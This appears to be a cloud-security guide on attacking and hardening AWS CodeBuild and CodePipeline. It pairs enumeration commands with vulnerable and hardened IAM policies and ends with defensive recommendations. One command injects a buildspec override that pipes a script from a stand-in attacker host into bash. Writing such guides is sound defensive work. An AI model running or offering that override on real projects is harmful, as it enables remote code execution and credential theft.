

CodeBuild and CodePipeline are AWS's CI/CD services for building, testing, and deploying applications. Attackers exploit build environments for code execution, credential theft from environment variables, and supply chain attacks through compromised build artifacts.
CodeBuild projects define the build environment, source provider, and buildspec file that controls every build step. Buildspecs execute arbitrary shell commands with the project's IAM role permissions, making them a prime target for injecting malicious build steps.
Build projects store configuration as environment variables — often including database credentials, API keys, and tokens. Variables can reference Secrets Manager or SSM Parameter Store, but plaintext variables are visible to anyone with codebuild:BatchGetProjects permissions.
Build artifacts are stored in S3 and may be deployed directly to production. A compromised build can inject backdoors into application packages, container images, or deployment bundles — creating supply chain attacks that propagate downstream.
CI/CD systems are prime targets for supply chain attacks. CodeBuild executes arbitrary code with powerful IAM roles. Environment variables often contain secrets. Compromised builds can poison production deployments.
aws codebuild list-projectsaws codebuild batch-get-projects --names my-projectaws codebuild list-builds-for-project --project-name my-projectaws codebuild batch-get-builds --ids my-project:build-idaws codepipeline list-pipelinesaws codepipeline get-pipeline --name my-pipelineaws codebuild batch-get-projects --names my-project --query 'projects[].environment.environmentVariables'aws codebuild list-source-credentialsaws codebuild start-build --project-name my-project --buildspec-override "version: 0.2\
phases:\
build:\
commands:\
- curl attacker.com/shell.sh | bash"aws logs get-log-events --log-group-name /aws/codebuild/my-project --log-stream-name build-id{
"Effect": "Allow",
"Action": "*",
"Resource": "*"
}
// Build role with full access enables:
// - Access any S3 bucket
// - Read all secrets
// - Assume other rolesBuild role with broad access enables lateral movement to any AWS resource
{
"Effect": "Allow",
"Action": [
"logs:CreateLogGroup",
"logs:PutLogEvents"
],
"Resource": "arn:aws:logs:*:*:/aws/codebuild/*"
},
{
"Effect": "Allow",
"Action": "s3:PutObject",
"Resource": "arn:aws:s3:::build-artifacts/*"
}Limited to only required build operations - logs and artifact storage
{
"Effect": "Allow",
"Action": [
"codebuild:StartBuild",
"codebuild:BatchGetProjects"
],
"Resource": "*"
}
# Attacker can override buildspec with:
# - Malicious commands
# - Credential theft
# - Reverse shellsAllows buildspec override for arbitrary code execution in build environment
{
"Effect": "Allow",
"Action": "codebuild:StartBuild",
"Resource": "arn:aws:codebuild:*:*:project/my-*",
"Condition": {
"Null": {
"codebuild:BuildSpecOverride": "true"
}
}
}
// Cannot override buildspec - uses project configUses IAM condition to prevent buildspec override attacks
Never use PLAINTEXT environment variables - reference Secrets Manager instead.
Use IAM conditions to prevent buildspec override in StartBuild calls.
Scope build roles to minimum required permissions for the build.
Only S3, ECR, and CloudWatch Logs for most buildsRun builds in VPC to control network access and prevent data exfiltration.
Sign build artifacts and verify signatures before deployment.
Use AWS Signer or Cosign for container imagesAlert on StartBuild with overrides, new projects, and credential access.